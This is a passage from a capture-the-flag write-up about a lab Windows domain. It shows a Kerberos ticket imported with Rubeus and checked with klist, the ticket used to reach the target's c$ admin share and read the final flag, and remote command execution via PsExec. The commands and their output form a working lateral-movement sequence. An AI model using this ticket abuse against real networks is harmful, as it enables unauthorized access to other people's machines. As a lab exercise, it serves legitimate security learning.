 ```powershell

[+] Ticket successfully imported!
```

As it can be seen at the end Rubeus automatically added the generated ticket to our localhost. This can be checked using `klist`:

```powershell
PS C:\> klist
Current LogonId is 0:0x1f6bb
Cached Tickets: (1)

#0>     Client: app1admin @ OPOSEC.LOCAL
        Server: cifs/app1.oposec.local @ OPOSEC.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize
        Start Time: 6/26/2021 16:55:48 (local)
        End Time:   6/27/2021 2:55:48 (local)
        Renew Time: 7/3/2021 16:55:48 (local)
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

We can now use this ticket to access the target machine, `app1.oposec.local`:

```powershell
PS C:\> ls \\app1.oposec.local\c$

    Directory: \\app1.oposec.local\c$

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         6/22/2021   9:21 PM                Files
d-----          3/8/2021   3:00 PM                inetpub
d-----          3/8/2021   2:56 PM                Packages
d-----          2/3/2021   4:36 AM                PerfLogs
d-r---         6/26/2021  12:11 AM                Program Files
d-----         7/16/2016   2:23 PM                Program Files (x86)
d-r---          6/9/2021   2:22 PM                Users
d-r---         6/20/2021  11:48 AM                Windows
d-----         5/13/2021   5:17 AM                WindowsAzure
-a----         6/10/2021   6:10 PM            156 flag.txt

PS C:\> cat '\\app1.oposec.local\c$\flag.txt'
flag{you_was_high_classed} Congratulations! Ping (@)armysick with both flags!
```

And we got ourselves the final flag:

> flag{you_was_high_classed} Congratulations! 

We could also use `PSExec` from Sysinternals to have remote control over the machine:

```powershell
PS C:\Tools\SysinternalsSuite> .\PsExec.exe \\app1.oposec.local cmd

PsExec v2.34 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows>hostname
APP1
```
